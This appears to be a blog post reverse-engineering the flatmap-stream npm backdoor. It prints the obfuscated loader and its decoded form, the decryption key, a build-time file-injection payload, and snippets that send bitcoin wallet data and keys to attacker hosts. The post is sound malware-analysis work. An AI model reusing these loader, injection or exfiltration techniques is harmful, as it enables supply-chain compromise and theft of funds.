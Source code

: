 ```yaml
---
title: Reversing flatmap-stream
date: "2019-01-13"
path: "/reversing-flatmap-stream/"
excerpt: Taking a belated look at the backdoor flatmap-stream package 
titleImage: "./whattosay.png"
tags: ["javascript", "flatmap-stream", "reversing", "security"]
---
```


flatmap-stream was included as a dependency in a widely used NPM library event-stream as a nested*.* It was discovered that [the minified version of flatmap-stream had some extra, obfuscated code](https://github.com/dominictarr/event-stream/issues/116). Let’s reverse the code to try to figure out what exactly what it is doing.


## Prettifying the code
```javascript
!function(){
    try{
        var r=require, t=process;
        function e(r){
            return Buffer.from(r,"hex").toString()
        }
        
        var n=r(e("2e2f746573742f64617461")),
        o=t[e(n[3])][e(n[4])];
        
        if(!o)return;
        
        var u=r(e(n[2]))[e(n[6])](e(n[5]),o),
        a=u.update(n[0],e(n[8]),e(n[9]));
        a+=u.final(e(n[9]));
        
        var f=new module.constructor;
        
        f.paths=module.paths,f[e(n[7])](a,""),f.exports(n[1])
    }
    catch(r){}
}();
```

The first thing of note is the `e` function, which converts hex strings. The payload for this malware is hidden within the these hex strings.

First string:
```javascript
> decode("2e2f746573742f64617461")
'./test/data'
```

This line imports code from the ./test/data folder, which contains 10 more hex obfuscated strings.

```javascript
module.exports=[
    "...truncated...",
    "...truncated...",
    "63727970746f",
    "656e76",
    "6e706d5f7061636b6167655f6465736372697074696f6e",
    "616573323536",
    "6372656174654465636970686572",
    "5f636f6d70696c65",
    "686578",
    "75746638"
];
```

After decoding and unobfuscating the code, we get

```javascript
!function(){
    try{
        var r=require, t=process;
        function decode(r){
            return Buffer.from(r,"hex").toString()
        }
        
        // Get data
        var data = require("./test/data")
        // Get the package description, and exit early if it doesn't exist
        var packageDescription = process.env.npm_package_description
        if (!packageDescription) {
            return;
        }
        
        // Decode the first payload with the npm package description
        var u = require('crypto').createDecipher('aes256', packageDescription)
        var firstPayload = u.update(data[0], 'hex', 'utf8')
        firstPayload += u.final('utf8');
        
        // Build a new module
        var f=new module.constructor;
        
        // Build a new module with the first and second payloads
        f.paths = module.paths,f._compile(firstPayload, ""),f.exports(data[1])
    }
    catch(r){}
}();
```

This bootstrapping script is looking for a specific module name to properly decode the payload. We could write a script to harvest npm package descriptions that have flatmap-stream in their dependency tree. However, as the target package has already be discovered, we’ll cheat. The AES256 decryption key is `A Secure Bitcoin Wallet`, which was/is the description of the copay package.

## The first payload
```javascript
module.exports = function(e) {
    try {
        // Exit if specific args aren't in the command line
        if (!/build\\:.*\\-release/.test(process.argv[2])) return;

        // Same npm pack
        var packageDescription = process.env.npm_package_description,
            r = require("fs"),
            i = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js",

            // Get stats on ReedSolomonDecoder
            // Read file
            n = r.statSync(i),
            c = r.readFileSync(i, "utf8"),
            // Create another cipher
            o = require("crypto").createDecipher("aes256", packageDescription),

            // Decrypt
            s = o.update(e, "hex", "utf8");
        s = "\\n" + (s += o.final("utf8"));

        // Write the payload into ReedSolomonDecoder, and reset utimes
        var a = c.indexOf("\\n/*@@*/");
        0 <= a && (c = c.substr(0, a)), 
        r.writeFileSync(i, c + s, "utf8"), 
        r.utimesSync(i, n.atime, n.mtime), 
        process.on("exit", function() {
            try {
                r.writeFileSync(i, c, "utf8"), r.utimesSync(i, n.atime, n.mtime)
            } catch (e) {}
        })
    } catch (e) {}
};
```

The first payload injects the second payload into release builds of the package. 

## The second payload
After decrypting the second payload with the key listed above, we find the meat and potatoes of the malware. Rather that posting the code for the entire block of code, I’ll post snippets that indicate what this payload does.

### POST to copayapi.host:8080 and 111.90.151.134:8080 with url e and payload n
```javascript
postToUrl("636f7061796170692e686f7374", e, n), 
postToUrl("3131312e39302e3135312e313334", e, n)
```

### Look for wallet files and send the wallet data to hosts above
```javascript
readFromFile("profile", function(e) {
    for (var t in e.credentials) {
        var n = e.credentials[t];
        // If livenet is the network, look in balanceCache files
        "livenet" == n.network && readFromFile("balanceCache-" + n.walletId, 
          function(e) {
            var t = this;
            t.balance = parseFloat(e.balance.split(" ")[0]);
            "btc" == t.coin && t.balance < 100 || 
            "bch" == t.coin && t.balance < 1e3 || 
            // Set the wallet's xPubKey to a global var
            // POST wallet information to url:8080/c, 200 bytes at a time
            (global.CSSMap[t.xPubKey] = !0, chunkAndPost("c", JSON.stringify(t)))
        }.bind(n))
    }
});
```

### Extract wallet keys and send to hosts above
```javascript
var e = require("bitcore-wallet-client/lib/credentials.js");
// Extends getKeysFunc to send all the key information 
// Also sends xPubKey previously set in the global var, and clears it
e.prototype.getKeysFunc = e.prototype.getKeys, e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
        global.CSSMap && global.CSSMap[this.xPubKey] && 
        (delete global.CSSMap[this.xPubKey], 
        // POST to url:8080/p, 200 bytes at a time
        chunkAndPost("p", e + "\\t" + this.xPubKey))
    } catch (e) {}
    return t
}
``` 

At this point, it’s fairly clear that this piece of malware steals bitcoins and bitcoin cash. This is a fairly narrow scope attack. Most users of the event-stream package weren’t even affected in the first place.

I realize that this blog post is coming fairly late after the original incident, and most of the detective work has already been performed. However, I wanted to take my own stab at it to see if I could reverse it myself.

